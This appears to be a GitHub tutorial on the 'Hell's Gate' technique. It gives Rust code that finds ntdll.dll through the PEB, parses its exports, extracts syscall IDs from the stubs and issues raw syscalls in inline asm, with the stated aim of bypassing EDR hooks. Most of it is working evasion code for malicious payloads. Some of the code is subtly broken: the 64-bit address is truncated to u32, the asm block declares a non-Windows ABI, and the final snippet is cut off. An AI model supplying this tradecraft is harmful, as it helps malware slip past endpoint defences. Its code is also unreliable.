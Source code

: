 ## **Hell’s Gate – Definition**

**Hell’s Gate** is a technique introduced by **am0nsec** that allows to:

* **Dynamically retrieve** the **syscall ID** of an NT function (`NtWriteVirtualMemory`, `NtCreateThreadEx`, etc.) from `ntdll.dll`

* Then **manually execute the `syscall` instruction**, bypassing all hooks **placed by EDRs inside `ntdll.dll`**

In short, we don’t just perform a `direct syscall` (which EDRs can detect via signature).

We perform a **stealth syscall**, with a **dynamically extracted ID**, **perfectly mimicking the Windows ABI**.

## **Why use Hell’s Gate?**

EDRs hook `ntdll.dll` by injecting code into:

* The syscall stubs of NT functions (`NtWriteVirtualMemory`, etc.)

* Or via inline hooks (`jmp`, `movabs`, etc.)

But we do NOT want to:

* use `ntdll.dll` (hooked),

* nor write `mov eax, 0xXX; syscall` (detectable signature).

Hell’s Gate = stealth + dynamic + anti-EDR.

## Hell’s Gate Steps

#### Step 1 — Get the base address of `ntdll.dll` stealthily

We don’t use `GetModuleHandle`, but go through the **PEB** + LDR to be fileless and API-less.

```rust
#[cfg(target_os = "windows")]
unsafe fn get_ntdll_base() -> *mut c_void {
    let peb = {
        let peb_ptr: usize;
        asm!("mov {}, gs:[0x60]", out(reg) peb_ptr);
        peb_ptr as *const u8
    };
    let ldr = *(peb.add(0x18) as *const *const u8);
    let mut module_list = *(ldr.add(0x10) as *const *const u8);
    loop {
        let dll_base = *(module_list.add(0x30) as *const *mut c_void);
        let dll_name_ptr = *(module_list.add(0x60) as *const *const u16);
        let dll_name_len = *(module_list.add(0x58) as *const u16) as usize / 2;
        let dll_name_slice = std::slice::from_raw_parts(dll_name_ptr, dll_name_len);
        let dll_name = String::from_utf16_lossy(dll_name_slice).to_lowercase();
        if dll_name.contains("ntdll.dll") {
            return dll_base;
        }
        module_list = *(module_list.add(0x0) as *const *const u8);
    }
}
```

#### Step 2 — Locate a `Nt*` function exported from `ntdll`

Example: `NtQuerySystemInformation`, `NtWriteVirtualMemory`, etc.

```rust
unsafe fn find_export(module_base: *const u8, function_name: &str) -> *const c_void {
    let dos_header = module_base;
    let nt_headers = dos_header.add(*(dos_header.add(0x3C) as *const u32) as usize);
    let export_directory_rva = *(nt_headers.add(0x88) as *const u32) as usize;
    let export_directory = module_base.add(export_directory_rva);
    let names_rva = *(export_directory.add(0x20) as *const u32) as usize;
    let names = module_base.add(names_rva) as *const u32;
    let functions_rva = *(export_directory.add(0x1C) as *const u32) as usize;
    let functions = module_base.add(functions_rva) as *const u32;
    let ordinals_rva = *(export_directory.add(0x24) as *const u32) as usize;
    let ordinals = module_base.add(ordinals_rva) as *const u16;

    for i in 0..*(export_directory.add(0x18) as *const u32) {
        let name_rva = *names.add(i as usize) as usize;
        let name_ptr = module_base.add(name_rva);
        let name = std::ffi::CStr::from_ptr(name_ptr as *const i8).to_str().unwrap_or("");
        if name.eq_ignore_ascii_case(function_name) {
            let ordinal = *ordinals.add(i as usize) as usize;
            let function_rva = *functions.add(ordinal) as usize;
            return module_base.add(function_rva) as *const c_void;
        }
    }

    std::ptr::null()
}

#[cfg(target_os = "windows")]
unsafe fn resolve_syscall(function_name: &str) -> Option<SyscallInfo> {
    let ntdll_base = get_ntdll_base() as *const u8;
    if ntdll_base.is_null() {
        println!("[-] NTDLL base not found");
        return None;
    }

    let func_addr = find_export(ntdll_base, function_name) as usize;
    if func_addr == 0 {
        println!("[-] Export for {} not found", function_name);
        return None;
    }

    let stub_bytes = std::slice::from_raw_parts(func_addr as *const u8, 20);
```

#### Step 3 — Read the syscall stub of the exported function

we retrieve the **first 20 bytes** of the function to detect the stub:

```rust
    if stub_bytes[0] == 0x4C && stub_bytes[1] == 0x8B && stub_bytes[2] == 0xD1 && stub_bytes[3] == 0xB8 {
        let syscall_id = u32::from_le_bytes([stub_bytes[4], stub_bytes[5], stub_bytes[6], stub_bytes[7]]) as u16;
        Some(SyscallInfo {
            wSystemCall: syscall_id,
            wServiceTableIndex: 0,
            dwAddress: func_addr as u32,
        })
    } else {
        println!("[-] Unexpected stub format for {}", function_name);
        None
    }
}
```

to identify this sequence:

```asm
mov r10, rcx
mov eax, XX
syscall
ret
```

#### Step 4 — Store necessary syscall info

We create a `SyscallInfo` structure:

```rust
#[repr(C)]
struct SyscallInfo {
    wSystemCall: u16,
    wServiceTableIndex: u16,
    dwAddress: u32,
}
```

We keep the `eax` (ID) and the real function address (for debug or alternate use).

#### Step 5 — Use the syscall via `asm!`

We reconstruct the stub using `asm!`:

```rust
    if let Some(syscall) = resolve_syscall("NtQuerySystemInformation") {
        asm!(
            "xor r10d, r10d",
            "mov r10, rcx",
            "mov eax, {0:e}",
            "syscall",
            in(reg) syscall.wSystemCall,
            in("rcx") 5u32, // SystemProcessInformation
            in("rdx") buffer.as_mut_ptr(),
            in("r8") buffer.len(),
            in("r9") std::ptr::null_mut::<u32>(),
            lateout("rax") status,
            clobber_abi("sysv64"),
        );
```
